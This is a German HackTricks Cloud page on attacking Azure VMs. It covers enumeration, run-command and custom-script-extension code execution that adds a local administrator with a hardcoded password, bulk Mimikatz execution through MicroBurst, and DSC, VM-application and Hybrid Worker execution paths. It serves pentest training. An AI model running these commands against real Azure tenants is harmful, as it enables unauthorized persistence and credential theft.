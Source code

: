 # Az - Virtuelle Maschinen & Netzwerk

{% hint style="success" %}
Lerne & übe AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Lerne & übe GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Unterstütze HackTricks</summary>

* Überprüfe die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Tritt der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folge** uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teile Hacking-Tricks, indem du PRs zu den** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos einreichst.

</details>
{% endhint %}

## Grundinformationen

[Aus den Dokumenten:](https://learn.microsoft.com/en-us/azure/virtual-machines/overview) Azure-virtuelle Maschinen sind eine von mehreren Arten von [on-demand, skalierbaren Rechenressourcen](https://learn.microsoft.com/en-us/azure/architecture/guide/technology-choices/compute-decision-tree), die Azure anbietet. Typischerweise wählst du eine virtuelle Maschine, wenn du mehr Kontrolle über die Rechenumgebung benötigst, als die anderen Optionen bieten. Dieser Artikel gibt dir Informationen darüber, was du beachten solltest, bevor du eine virtuelle Maschine erstellst, wie du sie erstellst und wie du sie verwaltest.

## Azure Netzwerk Informationen

Azure-Netzwerke enthalten **verschiedene Entitäten und Möglichkeiten, sie zu konfigurieren.** Du findest eine kurze **Beschreibung,** **Beispiele** und **Aufzählungs**befehle der verschiedenen Azure-Netzwerkinstanzen in:

{% content-ref url="az-azure-network.md" %}
[az-azure-network.md](az-azure-network.md)
{% endcontent-ref %}

## Azure Bastion

**Azure Bastion** bietet eine sichere, vollständig verwaltete RDP (Remote Desktop Protocol) und SSH (Secure Shell) Zugangs-Lösung über SSL über das Azure-Portal. Es ist in ein Azure Virtual Network integriert, was RDP- und SSH-Konnektivität zu VMs über private IPs ermöglicht und die Notwendigkeit öffentlicher IPs vermeidet. Dies macht es zu einer sichereren, bequemeren Alternative zu traditionellen Methoden, die öffentliche IP-Zuweisungen und NSG-Regelkonfigurationen für den VM-Zugriff erfordern. Entwickler und IT-Personal können sicher auf VMs über das Azure-Portal mit ihren Webbrowsern zugreifen, was den Prozess für Entwicklungs- und Testumgebungen optimiert.

Um alle Azure Bastion Hosts in deinem Abonnement aufzulisten, kannst du den folgenden Befehl verwenden:

{% code overflow="wrap" %}
```bash
az network bastion list --query "[].{name:name, resourceGroup:resourceGrou, location:location}" -o table
```
{% endcode %}

## VM Aufzählung
```powershell
# Get readable VMs
Get-AzVM | fl
# Lis running VMs
Get-AzureRmVM -status | where {$_.PowerState -EQ "VM running"} | select ResourceGroupName,Name
Get-AzVM -Name <name> -ResourceGroupName <res_group_name> | fl *
Get-AzVM -Name <name> -ResourceGroupName <res_group_name> | select -ExpandProperty NetworkProfile

# Get iface and IP address
Get-AzNetworkInterface -Name <interface_name>
Get-AzPublicIpAddress -Name <iface_public_ip_id>

#Get installed extensions
Get-AzVMExtension -ResourceGroupName <res_group_name> -VMName <name>

Get-AzVM | select -ExpandProperty NetworkProfile # Get name of network connector of VM
Get-AzNetworkInterface -Name <name> # Get info of network connector (like IP)
```
## **Befehle in einer VM ausführen**

### **AAD-Anmeldung in der VM**

Es ist möglich, Benutzern, die über AzureAD authentifiziert sind, den Zugriff zu ermöglichen. Zum Beispiel beim Versuch, auf eine **Linux-VM** zuzugreifen: `ssh username@azure-corp.com@1.1.1.1` (es ist wichtig, die **E-Mail** mit dem azurecorp zu verwenden, wenn man versucht sich anzumelden), könnte man einen Fehler wie erhalten: 

{% code overflow="wrap" %}
```
(username@azure-corp.com@1.1.1.1) This preview capability is not for production use. When you sign in, verify the name of the app on the sign-in screen is "Azure Linux VM Sign-in" and the IP address of the target VM is correct.

To sign in, use a web browser to open the page https://microsoft.com/devicelogin and enter the code DT4PNSTGR to authenticate. Press ENTER when ready.
```
{% endcode %}

Befolgen Sie einfach **diese Anweisungen**, indem Sie zu [https://microsoft.com/devicelogin](https://microsoft.com/devicelogin) gehen und den Code angeben, verwenden Sie die E-Mail und das Passwort als Anmeldeinformationen, und Sie können sich über SSH verbinden (wenn dieser Benutzer über ausreichende Berechtigungen verfügt: `Virtual Machine Administrator Login` oder `Virtual Machine User Login` Rolle).

### **Befehl ausführen**
```powershell
# The permission allowing this is Microsoft.Compute/virtualMachines/runCommand/action
Invoke-AzVMRunCommand -ScriptPath .\adduser.ps1 -CommandId 'RunPowerShellScript' -VMName 'juastavm' -ResourceGroupName 'Research' –Verbose
## Another way
Invoke-AzureRmVMRunCommand -ScriptPath .\adduser.ps1 -CommandId 'RunPowerShellScript' -VMName 'juastavm' -ResourceGroupName 'Research' –Verbose

# Content of the script
$passwd = ConvertTo-SecureString "Welcome2022!" -AsPlainText -Force
New-LocalUser -Name new_user -Password $passwd
Add-LocalGroupMember -Group Administrators -Member new_user
```

```powershell
# Try to run in every machine
Import-module MicroBurst.psm1
Invoke-AzureRmVMBulkCMD -Script Mimikatz.ps1 -Verbose -output Output.txt
```
### **Führen Sie die benutzerdefinierte Skripterweiterung aus**

Azure-virtuelle Maschinen (VM) Erweiterungen sind **kleine Anwendungen**, die Konfigurations- und Automatisierungs-**aufgaben** nach der Bereitstellung auf **Azure VMs** bereitstellen. Wenn beispielsweise eine virtuelle Maschine die Installation von Software, den Schutz durch Antivirenprogramme oder die Möglichkeit benötigt, ein Skript darin auszuführen, können Sie eine VM-Erweiterung verwenden.

Daher können Sie, wenn Sie Zugriff haben, um es zu schreiben, beliebigen Code ausführen:
```powershell
# Microsoft.Compute/virtualMachines/extensions/write
Set-AzVMExtension -ResourceGroupName "Research" -ExtensionName "ExecCmd" -VMName "infradminsrv" -Location "Germany West Central" -Publisher Microsoft.Compute -ExtensionType CustomScriptExtension -TypeHandlerVersion 1.8 -SettingString '{"commandToExecute":"powershell net users new_user Welcome2022. /add /Y; net localgroup administrators new_user /add"}'
```
### DesiredConfigurationState (DSC)

DesiredConfigurationState (DSC) ist ein PowerShell-Tool, das Ansible ähnlich ist und zur Einrichtung eines Hosts durch Code verwendet wird. DSC integriert sich mit Azure und ermöglicht das Hochladen spezifischer Konfigurationsdateien. Diese Dateien müssen einer strengen Syntax entsprechen. Bemerkenswert ist, dass die DSC-Erweiterung in Azure Befehle aus Dateien ausführen kann, die bestimmten Formatierungskriterien entsprechen, selbst wenn die Syntax nicht den DSC-Standards entspricht, wie in der bereitgestellten Abbildung gezeigt.

Die Ausführung dieser Befehle wird durch die [**`Publish-AzVMDscConfiguration`**](https://docs.microsoft.com/en-us/powershell/module/az.compute/publish-azvmdscconfiguration?view=azps-7.5.0) Funktion in Az PowerShell erleichtert. Die Anforderungen umfassen eine **.PS1**-Datei mit einer definierten Funktion, und die Datei muss in eine **.zip**-Datei gepackt werden. Obwohl die Syntax möglicherweise nicht korrekt für DSC ist, wird der Code dennoch ausgeführt. Die Erweiterung wird jedoch den Ausführungsstatus als "Fehler" markieren, und keine Ausgabe des Befehls wird sichtbar sein, da der Status durch die Fehlermeldung überschrieben wird.

### VM Application Definitions

VM Application Definitions ermöglichen die wiederholbare Bereitstellung von versionierten Anwendungen auf einer Azure-VM. Diese Ressource unterstützt die Bereitstellung und Aktualisierung von Anwendungen über VMs hinweg. Um dies einzurichten, sind mehrere Schritte erforderlich, die Befehle wie **`New-AzGalleryApplication`** und **`New-AzGalleryApplicationVersion`** in Az PowerShell umfassen.

Die Ausführung von Anwendungen oder Befehlen über diese Methode erfolgt über die **"VMAppExtension"**, die automatisch installiert wird, wenn eine Anwendung auf eine VM angewendet wird. Die Erweiterung ruft die Datei von der angegebenen URI ab und benennt sie genau wie die Anwendung, ohne eine Erweiterung. Um die Datei korrekt auszuführen, muss das Feld "ManageActions" im REST-API-Aufruf so konfiguriert werden, dass die Datei mit der entsprechenden Erweiterung umbenannt wird. Die Einrichtung dieser Methode wird, sobald sie abgeschlossen ist, der in der bereitgestellten Abbildung gezeigten Struktur ähneln.

Diese Methode der Ausführung ist jedoch relativ langsam und benötigt etwa 3-4 Minuten, um eine Anwendung oder einen Befehl auszuführen. Die mit diesem Prozess verbundenen Dateien werden in spezifischen Verzeichnissen gespeichert (`C:\Packages\Plugins\Microsoft.CPlat.Core.VMApplicationManagerWindows\1.0.4\Downloads\` für die Anwendungsdatei und `C:\Packages\Plugins\Microsoft.CPlat.Core.VMApplicationManagerWindows\1.0.4\Status\` für den Ausführungsstatus).

Beide Techniken bieten einzigartige Möglichkeiten zur Ausführung von Befehlen und zur Bereitstellung von Anwendungen in Azure-Umgebungen, jede mit ihren eigenen Anforderungen, Schritten und Überlegungen.

### Hybrid Worker Groups (HWGs) in Azure

[**Hybrid Worker Groups (HWGs)**](https://docs.microsoft.com/en-us/azure/automation/automation-hybrid-runbook-worker) sind eine Funktion in Azure, die es ermöglicht, Runbooks, die in einem Automatisierungskonto konfiguriert sind, auf einer Azure-VM (VM) auszuführen, die Teil der vorgesehenen HWG ist. Diese Ausführung wird durch eine auf der VM installierte Erweiterung erleichtert, die den Runbook-Code auf die VM bereitstellt. Ein wesentlicher Aspekt dieses Prozesses ist, dass die tatsächlichen Anmeldeinformationen bei der Ausführung keine Rolle spielen, da der Code mit erhöhten Rechten, speziell als **SYSTEM** oder root, ausgeführt wird, wie in der bereitgestellten Abbildung dargestellt.

Ein wichtiger Punkt für diejenigen, die Windows 10 VMs nutzen, ist die Notwendigkeit, die PowerShell-Version für das Runbook anzugeben. Sie sollte so eingestellt werden, dass sie als PowerShell Version 5.1 anstelle von 7.1 ausgeführt wird. Diese Anforderung ergibt sich aus der Tatsache, dass PowerShell 7.1 standardmäßig nicht auf diesen VMs installiert ist, was zu einem Fehler bei der Skriptausführung führt, wenn Version 7.1 angegeben wird.

Dieses Feature von Azure bietet eine robuste Methode zur Automatisierung und Verwaltung von Aufgaben in hybriden Umgebungen und ermöglicht eine zentrale Verwaltung und Ausführung von Aufgaben auf Azure-VMs.

## References

* [https://learn.microsoft.com/en-us/azure/virtual-machines/overview](https://learn.microsoft.com/en-us/azure/virtual-machines/overview)
* [https://hausec.com/2022/05/04/azure-virtual-machine-execution-techniques/](https://hausec.com/2022/05/04/azure-virtual-machine-execution-techniques/)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
